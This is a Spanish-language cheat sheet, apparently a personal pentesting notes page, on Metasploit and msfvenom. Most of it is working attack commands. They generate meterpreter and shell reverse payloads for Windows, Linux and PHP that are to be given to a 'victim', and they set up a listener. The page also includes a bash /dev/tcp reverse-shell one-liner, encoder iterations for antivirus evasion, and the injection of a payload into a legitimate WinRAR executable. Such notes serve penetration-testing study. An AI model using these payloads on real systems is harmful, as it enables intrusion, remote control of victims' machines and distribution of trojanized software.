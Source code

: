 ```yaml
---
title: "Metasploit Y Msfvenom"
layout: "single"
category: "Varios"
slug: "varios/metasploit-y-msfvenom"
date: "2025-09-30"
---
```


### Metasploit basics
```bash
* msfdb init && msfconsole (abrir metasploit con la bbdd para luego pivoting)
* search <CVE-****> (buscar exploits)
* search <windows | nombre de la vuln ..>
* use <modulo> (utilizar un exploit)
* show options (para ver lo que podemos aplicar en un exploit)
* info (ver los targets disponibles, opciones, etc)
* set (establecer un parámetro)
* run (lanzar un exploit)
* shell (obtener una shell cuando ya hemos establecido una sesión de meterpreter)
* sessions -l (listar sesiones)
* sessions -K (kill sessions)
* sessions <numero> entrar en una sesión


#METERPRETER migrar sesion de meterpreter x86 a x64
pgrep explorer (esto nos dará el PID del proceso explorer)
migrate <numero> (el numero del proceso obtenido)

#METERPRETER BASICS
* sysinfo
* getprivs
*  getuid
* 
```

### Payloads con MsfVenom

#### MsfVenom Basics
```bash
msfvenom --list payloads
msfvenom --list enconders (para codificar y tratar de evadir el AV)
```
#### Payload sesión meterpreter Windows
Esto es útil entre otras cosas para el pivoting con metasploit. De esta forma conseguimos una sesión de meterpreter.
```bash
#Generamos el payload y lo compartimos con la víctima
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip_atacante> LPORT=443 -f exe -o fichero.exe


# Nos ponemos a la escucha con msfconsole (metasploit)
msfconsole
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LPORT=443
set LHOST=<ip_atacante>
run

# Ya solo falta ejecutar el .exe y recibiremos la sesión de meterpreter

```

#### Payload sesión meterpreter Linux
Igual que con Windows, solo que cambiamos el payload utilizado, en este caso:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
#### Payload reverse shell PHP
```bash
#Generamos el payload y lo compartimos con la víctima
msfvenom -p php/reverse_php LHOST=<ip_atacante> LPORT=<puerto_atacante> -f raw > pwned.php

Ahora nos ponemos a la escucha con netcat y listo. IMPORTANTE, esta conexion se puede cerrar. así que una vez dentro es conveniente ejecutar una nueva reverse shell.

# Segunda reverse shell
bash -c "sh -i >& /dev/tcp/10.10.10.10/9001 0>&1"

y nos ponemos a la escucha con netcat
```

#### Payload encoding (AV evasion)
Al generar un payload con msfvenom, añadimos el argumento -e y el encoder especificado.

con la opción -i indicamos las iteraciones al codificar un payload (si se dan muchisimas iteraciones también podríamos llamar la atención)
```bash
msfvenom --list encoders
msfvenom -p ...... -e x86/shikata_ga_nai -i 10
```

#### Inyectar payload en ejecutable legítimo
Teniendo un portable, podemos incluir nuestro código payload en él con la opción -x indicando la ruta del portable.
```bash
msfvenom -p ...... -e x86/shikata_ga_nai -i 10 -x /home/kali/winrarportable.exe
```
